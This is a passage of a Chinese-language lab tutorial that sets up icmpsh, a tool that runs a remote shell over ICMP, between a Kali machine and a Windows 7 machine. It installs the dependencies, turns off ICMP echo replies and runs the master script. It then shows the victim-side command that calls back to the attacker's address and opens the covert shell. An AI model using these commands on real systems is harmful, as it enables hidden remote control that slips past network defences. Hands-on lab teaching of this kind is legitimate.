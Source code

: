 ```
1、下载+解压+安装setuptools包：
2、root@kali:~#:wget https://pypi.python.org/packages/source/s/setuptools/setuptools-18.5.tar.gz
3、root@kali:~#:tar zxvf setuptools-18.5.tar.gz
4、root@kali:~#:cd setuptools-18.5
5、root@kali:~#:python setup.py build
6、root@kali:~#:python setup.py install
7
8、2.下载+解压+安装pip
9、root@kali:~#:wget https://pypi.python.org/packages/source/p/pip/pip-7.1.2.tar.gz
10、root@kali:~#:tar zxvf pip-7.1.2.tar.gz
11、root@kali:~#:cd pip-7.1.2
12、root@kali:~#:sudo python setup.py install

```

如果还是不行那么就使用这条命令安装：

```
pip2 install impacket

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tkA6aykWNyxJkWGVKC2NFIsAucMTSM8h8icJtSY6vrtEMjJ7Uib0bBz6g/640?wx_fmt=png)

  

因为 icmpsh 工具要代替系统本身的 ping 命令的应答程序，所以需要输入如下命令来关闭本地系统的 ICMP 答应（如果要恢复系统答应，则设置为 0），否则 Shell 的运行会不稳定.

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

```

实验完成后开启系统 ping 的话将最后的 1 改为 0 即可

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3t21h1ahy9HfEANBrn0839wJYtbPSgatb2y36AkibgVFLZKlAXdggDv6A/640?wx_fmt=png)

  

在这里我说一下，运行 run.sh 会出错，不知道为啥：

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3thpRWUCibChmzicVhdIPmSiao5FSichD8GyZiayG7a5QzCiaMZLiafFjicNjfSg/640?wx_fmt=png)

  

于是我使用了 Python 脚本运行：

```
python icmpsh_m.py 192.168.217.129【kali】 192.168.217.132【win7】

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tWD8EhgLvE8GVJxk3nL4eqtY5nGJJ5WpESriaDOBzp5RFxFLviazOIrNw/640?wx_fmt=png)

  

然后在 Win7 上执行命令：

```
icmpsh.exe -t 192.168.217.129

```

